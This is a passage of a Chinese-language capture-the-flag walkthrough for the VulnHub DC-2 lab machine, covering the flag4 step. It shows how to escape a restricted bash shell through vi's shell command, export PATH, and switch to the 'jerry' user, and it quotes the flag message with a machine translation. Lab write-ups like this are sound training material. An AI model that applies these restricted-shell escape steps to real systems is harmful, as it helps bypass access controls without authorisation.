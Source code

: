 可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC2/11.png)

ok,现在是正常的 shell 环境了,在提权之前,尝试登录 jerry 用户
```bash
su jerry
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC2/12.png)

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
机翻
```
很高兴看到你已经做到了这一点-但你还没有回家。

你仍然需要获得最终标志（唯一真正重要的标志！！！）。

这里没有提示-你现在就一个人了。 :-)

继续-git outta here !!!!
```
